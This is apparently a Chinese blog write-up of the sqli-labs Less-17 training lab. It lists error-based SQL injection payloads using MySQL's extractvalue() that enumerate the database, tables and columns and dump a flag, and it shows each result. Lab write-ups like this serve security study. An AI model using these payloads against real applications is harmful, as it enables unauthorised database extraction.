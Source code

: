 # 原创
：  less-17 in sqli-labs

# less-17 in sqli-labs

Less-17 报错注入【 ’ 】<br/> 通过判断发现注入点存在于passwd处（在uname处\无反应，passwd处\有报错）<br/> `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1`

爆当前库名：`1' and extractvalue(1,concat(0x7e,(select database()),0x7e))#`<br/> 结果：`XPATH syntax error: '~security~'`

爆库名：`1' and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 5,1),0x7e))#`<br/> 结果：`XPATH syntax error: '~security~`

爆表名：`1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e))#`<br/> 结果：`XPATH syntax error: '~hermesflag~'`

爆列名：`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='hermesflag' limit 1,1),0x7e))#`<br/> 结果：`XPATH syntax error: '~flag~'`

爆数据-1：`1' and extractvalue(1,concat(0x7e,(select flag from hermesflag)))#`<br/> 结果：`XPATH syntax error: '~flag{327a6c4304ad5938eaf0efb6cc'`<br/> 爆数据-2：`1' and extractvalue(1,concat(0x7e,right((select flag from hermesflag),20)))#`<br/> 结果：`XPATH syntax error: '~938eaf0efb6cc3e53dc}'`

最后结果：`flag{327a6c4304ad5938eaf0efb6cc3e53dc}`
